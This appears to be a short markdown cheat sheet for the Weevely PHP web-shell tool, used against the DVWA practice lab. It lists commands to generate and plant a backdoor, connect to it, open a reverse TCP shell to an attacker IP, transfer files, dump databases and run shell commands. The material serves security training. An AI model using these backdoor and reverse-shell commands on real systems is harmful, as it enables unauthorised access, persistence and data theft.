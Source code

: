 # Weevely

## Usage
1. Genrate backdoor in Kali
   - ```weevely generate [password] [file name]```
   -  ```weevely generate 123456 /root/shell.php```
2. Upload in vulnerable app (DVWA-Low)
3. Send a request to uploaded php file (run it)
   - *http://192.168.152.132/dvwa/hackable/uploads/shell.php*
4. Connect to shell from Kali
   - ```weevely [url o file] [password]```
   -  ```weevely http://192.168.152.132/dvwa/hackable/uploads/shell.php```

## Weevely commands
- List weevely functions
  - ```help```
- Help of a specific function 
  - ```[function name] -h```   
- Run weevely functions
  - ```[function name]```
- Download
  - ```file_download -vector [VECTOR] [FileName] -host [HOST] [location to store file]```
- Upload
  - ```file_upload -vector [VECTOR] [location on local machine] [location to store file]
- Reverse shell
  - ```backdoor_reversetcp -vector [VECTOR] [Your IP] [PORT]```
- Access database
  - ```sql_console```
  - ```sql_dump -vector [VECTOR] -host [HOST] -lpath [location to store data] [DB Name] [username] [password]```
- Other functions
  - ```whoami``` 
  - ``` shell_sh [command]
  - ```shell_sh -v [vector] [command]
